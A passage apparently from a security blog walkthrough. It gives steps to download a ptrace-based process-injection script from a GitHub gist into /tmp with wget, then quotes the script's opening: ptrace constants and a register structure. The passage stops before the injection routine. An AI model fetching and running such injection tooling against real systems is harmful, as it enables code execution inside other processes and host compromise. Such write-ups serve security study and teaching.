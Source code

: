

![image-20211230185641921](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230185641921.png)下载使用注入脚本

```
cd /tmp    
```

```
wget https://gist.githubusercontent.com/wifisecguy/1d69839fe855c36a1dbecca66948ad56/raw/e919439010bbabed769d86303ff18ffbacdaecfd/inject.py
```

>```
># The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
># GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 
>
>import ctypes
>import sys
>import struct
>
># Macros defined in <sys/ptrace.h>
># https://code.woboq.org/qt5/include/sys/ptrace.h.html
>
>PTRACE_POKETEXT   = 4
>PTRACE_GETREGS	= 12
>PTRACE_SETREGS	= 13
>PTRACE_ATTACH 	= 16
>PTRACE_DETACH 	= 17
>
># Structure defined in <sys/user.h>
># https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
>
>class user_regs_struct(ctypes.Structure):
>	_fields_ = [
>    	("r15", ctypes.c_ulonglong),
>    	("r14", ctypes.c_ulonglong),
>    	("r13", ctypes.c_ulonglong),
>    	("r12", ctypes.c_ulonglong),
>    	("rbp", ctypes.c_ulonglong),
>    	("rbx", ctypes.c_ulonglong),
>    	("r11", ctypes.c_ulonglong),
>    	("r10", ctypes.c_ulonglong),
>    	("r9", ctypes.c_ulonglong),
>    	("r8", ctypes.c_ulonglong),
>    	("rax", ctypes.c_ulonglong),
>    	("rcx", ctypes.c_ulonglong),
>    	("rdx", ctypes.c_ulonglong),
>    	("rsi", ctypes.c_ulonglong),
>    	("rdi", ctypes.c_ulonglong),
>    	("orig_rax", ctypes.c_ulonglong),
>    	("rip", ctypes.c_ulonglong),
>    	("cs", ctypes.c_ulonglong),
>    	("eflags", ctypes.c_ulonglong),
>    	("rsp", ctypes.c_ulonglong),
>    	("ss", ctypes.c_ulonglong),
>    	("fs_base", ctypes.c_ulonglong),
>    	("gs_base", ctypes.c_ulonglong),
>    	("ds", ctypes.c_ulonglong),
>    	("es", ctypes.c_ulonglong),
>    	("fs", ctypes.c_ulonglong),
>    	("gs", ctypes.c_ulonglong),
>	]
>
>libc = ctypes.CDLL("libc.so.6")